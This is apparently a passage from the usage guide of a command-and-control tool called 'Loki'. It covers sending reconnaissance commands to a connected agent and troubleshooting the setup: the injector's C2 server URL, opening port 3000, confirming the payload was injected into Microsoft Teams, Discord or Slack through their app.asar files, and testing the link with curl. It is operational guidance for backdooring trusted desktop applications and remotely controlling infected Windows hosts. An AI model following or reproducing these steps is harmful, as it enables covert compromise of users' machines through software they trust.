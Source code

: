 ### 4. Command & Control
```
Select agent → Send commands:
- whoami
- hostname
- ipconfig
- dir C:\
```

═══════════════════════════════════════════════════════════════

## 🔧 Troubleshooting

### No Agent Connection?

**Check 1: C2 Server URL**
```bash
# In loki_injector.py, should be:
srv: 'http://YOUR_MAC_IP:3000'

# NOT localhost! Windows can't reach "localhost" on your Mac
```

**Check 2: Firewall**
```bash
# Allow port 3000 on macOS firewall
# System Settings → Network → Firewall
```

**Check 3: Payload Injected?**
```
On Windows:
- Open Teams
- Press F12 (DevTools)
- Console tab
- Look for [Loki] messages
```

**Check 4: Network Connectivity**
```bash
# On Windows lab, test connection:
curl http://YOUR_MAC_IP:3000
# Should return Loki C2 response
```

### Injection Failed?

**Check 1: Target App Installed**
```
Verify Microsoft Teams, Discord, or Slack installed
```

**Check 2: ASAR Backup Exists?**
```
Look for app.asar.backup file
Means injection was attempted
```
